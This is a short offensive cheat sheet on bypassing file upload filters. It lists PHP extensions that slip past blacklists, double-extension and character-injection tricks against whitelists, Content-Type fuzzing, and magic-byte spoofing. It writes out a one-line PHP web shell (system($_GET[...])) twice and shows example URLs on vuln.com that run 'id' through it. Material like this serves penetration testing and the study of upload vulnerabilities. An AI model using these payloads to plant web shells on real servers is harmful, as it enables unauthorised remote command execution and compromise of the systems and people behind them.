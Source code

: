 ## Bypasses Extensions

**Blacklist Bypass**

```
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
.phtml
.pHp
```

```sh
echo '<?php system($_GET["command"]); ?>' > file.ext
```
- [PHP Extension](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

- [ASP Extension](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)

- [All Extension](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

**Whitelist Bypass**

```sh
# Double Extensions
http://vuln.com/upload/shell.jpg.php?cmd=id

# Reverse Double Extension
http://vuln.com/upload/shell.php.jpg?cmd=id

# Character Injection - Before/After Extension
%20, %0a, %00, %0d0a, /, .\, ., …
```

## Type Filters

There are two common methods for validating the file content: `Content-Type Header` or `File Content`.

- We may start by fuzzing the Content-Type header with

```sh
cat /opt/seclists/Miscellaneous/Web/content-type.txt | grep 'image/' > image-content-types.txt
```

## Magic-Numbers

- https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5

- https://en.wikipedia.org/wiki/List_of_file_signatures


```sh
echo '<?php system($_GET["cmd"]); ?>' > file.php
```

Copier une des signature dans le fichier

```sh
hexeditor file.php
```